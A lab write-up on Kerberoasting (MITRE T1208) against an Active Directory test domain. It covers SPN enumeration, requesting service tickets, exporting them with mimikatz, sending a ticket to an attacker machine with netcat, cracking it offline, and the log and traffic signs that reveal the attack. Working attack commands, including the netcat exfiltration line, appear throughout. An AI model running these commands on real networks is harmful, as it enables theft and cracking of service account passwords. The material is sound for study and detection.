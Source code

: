 ```yaml
---
description: Credential Access
---
```


# T1208: Kerberoasting

This lab explores an attack that allows any domain user to request kerberos tickets from TGS that are encrypted with NTLM hash of the plaintext password of a domain user account that is used as a service account \(for example for running an IIS service\) and crack them offline avoiding lockouts.

## Execution

Note the vulnerable domain member - a user account with `servicePrincipalName` attribute set \(important piece for kerberoasting - only user accounts with that property set are most likely susceptible to kerberoasting\):

![](../../.gitbook/assets/kerberoast-principalname.png)

Attacker setting up an nc listener to receive a hash for cracking:

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```csharp
nc -lvp 443 > kerberoast.bin
```
{% endcode-tabs-item %}
{% endcode-tabs %}

### Extracting the Ticket

Attacker enumerating user accounts with `serverPrincipalName` set:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
Get-NetUser | Where-Object {$_.servicePrincipalName} | fl
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/kerberoast-enumeration.png)

Using only built-in powershell, we can extract the susceptible accounts with:

```csharp
get-adobject | Where-Object {$_.serviceprincipalname -ne $null -and $_.distinguishedname -like "*CN=Users*" -and $_.cn -ne "krbtgt"}
```

![](../../.gitbook/assets/kerberoast-powershell.png)

It would have been better to use the following command provided by [Sean Metcalf](https://adsecurity.org/?p=2293) purely because of the `-filter` usage \(quicker than `select-object`\), but it did not work for me:

```csharp
get-adobject -filter {serviceprincipalname -like “*sql*”} -prop serviceprincipalname
```

Additionally, user accounts with SPN set could be extracted with a native windows binary:

```text
 setspn -T offense -Q */*
```

![](../../.gitbook/assets/kerberoast-setspn%20%281%29.png)

Attacker requesting a kerberos ticker for a user account with `servicePrincipalName` set to `HTTP/dc-mantvydas.offense.local`- it gets stored in the memory:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
Add-Type -AssemblyName System.IdentityModel  
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "HTTP/dc-mantvydas.offense.local"
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/kerberoast-kerberos-token.png)

Using mimikatz, the attacker extracts kerberos ticket from the memory and exports it to a file for cracking:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
mimikatz # kerberos::list /export
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/kerberoast-exported-kerberos-tickets.png)

Attacker sends the exported service ticket to attacking machine for offline cracking:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
nc 10.0.0.5 443 < C:\tools\mimikatz\x64\2-40a10000-spotless@HTTP~dc-mantvydas.offense.local-OFFENSE.LOCAL.kirbi
```
{% endcode-tabs-item %}
{% endcode-tabs %}

### Cracking the Ticket

Attacker brute forces the password of the service ticket:

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```csharp
python2 tgsrepcrack.py pwd kerberoast.bin
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/kerberoast-cracked.png)

## Observations

Below is a security log `4769` showing service access being requested:

![](../../.gitbook/assets/kerberoast-4769.png)

If you see `Add-event -AssemblyName SystemIdentityModel` \(from advanced Powershell logging\) followed by a windows security event `4769` immediately after that, you may be looking at an old school Kerberoasting:, especially if ticket encryption type has a value `0x17` \(23 decimal, meaning it's `RC4` encrypted\):

![](../../.gitbook/assets/kerberoast-logs.png)

### Traffic

Below is the screenshot showing a request being sent to the `Ticket Granting Service` \(TGS\) for the service with a servicePrincipalName `HTTP/dc-mantvydas.offense.local` :

![](../../.gitbook/assets/kerberoast-tgs-req.png)

Below is the response from the TGS for the user `spotless` \(we initiated this attack from offense\spotless\) which contains the encrypted \(RC4\) kerberos ticket \(server part\) to access the `HTTP/dc-mantvydas.offense.local` service. It is the same ticket we cracked earlier with [tgsrepcrack.py](./#cracking-the-ticket):

![](../../.gitbook/assets/kerberoast-tgs-res.png)

Out of curiosity, let's decrypt the kerberos ticket since we have the password the ticket was encrypted with.

Creating a kerberos keytab file for use in wireshark:

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```bash
root@~# ktutil 
ktutil:  add_entry -password -p HTTP/iis_svc@dc-mantvydas.offense.local -k 1 -e arcfour-hmac-md5
Password for HTTP/iis_svc@dc-mantvydas.offense.local: 
ktutil:  wkt /root/tools/iis.keytab
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/kerberoast-creating-keytab.png)

Adding the keytab to wireshark:

![](../../.gitbook/assets/kerberoast-wireshark-keytab.png)

Note how the ticket's previously encrypted piece is now in plain text and we can see information pertinent to the requested ticket for a service `HTTP/dc-mantvydas.offense.local` :

![](../../.gitbook/assets/kerberoast-decrypted.png)

### tgsrepcrack.py

Looking inside the code and adding a couple of print statements in key areas of the script, we can see that the password from the dictionary \(`Passw0rd`\) initially gets converted into an NTLM \(`K0`\) hash, then another key `K1` is derived from the initial hash and a message type, yet another key `K2` is derived from K1 and an MD5 digest of the encrypted data. Key `K2` is the actual key used to decrypt the encrypted ticket data:

![](../../.gitbook/assets/kerberoast-crackstation.png)

![](../../.gitbook/assets/kerberoast-printstatements.png)

I did not have to, but I also used an online RC4 decryptor tool to confirm the above findings:

![](../../.gitbook/assets/kerberoast-decryptedonline.png)

{% file src="../../.gitbook/assets/kerberoast.pcap" caption="kerberoast.pcap" %}

[Tim Medin - Attacking Kerberos: Kicking the Guard Dog of Hades](https://files.sans.org/summit/hackfest2014/PDFs/Kicking%20the%20Guard%20Dog%20of%20Hades%20-%20Attacking%20Microsoft%20Kerberos%20%20-%20Tim%20Medin%281%29.pdf)

{% embed url="https://attack.mitre.org/wiki/Technique/T1208" %}

{% embed url="https://github.com/nidem/kerberoast" %}

{% embed url="https://blog.stealthbits.com/extracting-service-account-passwords-with-kerberoasting/" %}

{% embed url="https://adsecurity.org/?p=2293" %}

{% embed url="https://www.youtube.com/watch?v=nJSMJyRNvlM&feature=youtu.be&t=16" %}

{% embed url="http://www.harmj0y.net/blog/powershell/kerberoasting-without-mimikatz/" %}

{% embed url="https://pentestlab.blog/2018/06/12/kerberoast/" %}

{% embed url="https://blog.xpnsec.com/kerberos-attacks-part-1/" %}

{% embed url="https://pentestlab.blog/2018/06/12/kerberoast/" %}

{% embed url="http://rc4.online-domain-tools.com/" %}

{% embed url="https://crackstation.net/" %}

